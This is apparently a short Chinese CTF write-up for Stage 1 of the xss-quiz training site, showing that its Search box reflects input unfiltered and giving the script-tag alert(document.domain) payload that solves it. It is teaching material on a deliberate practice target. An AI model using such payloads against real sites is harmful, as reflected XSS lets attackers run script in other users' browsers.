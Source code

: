 ## [[xss-quiz](http://xss-quiz.int21h.jp/)] [[Stage #1](http://xss-quiz.int21h.jp)] [[解题报告](https://exp-blog.com/safe/ctf/xss-quiz/stage-1/)]

------

水题。题目要求是执行 JS 脚本 `alert(document.domain);`

不难发现在 Search 框输入的内容，不会做任何过滤直接输出到页面：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-quiz/Stage%20%231/imgs/01.png)

那么只需要构造以下 payload 到 Search 框，点击 Search 按钮即可完成挑战。

```javascript
<script>alert(document.domain);</script>
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-quiz/Stage%20%231/imgs/02.png)

> 本题用 Chrome 浏览器无法完成挑战（会被拦截），用 Firefox 则可完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-quiz/Stage%20%231/imgs/03.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
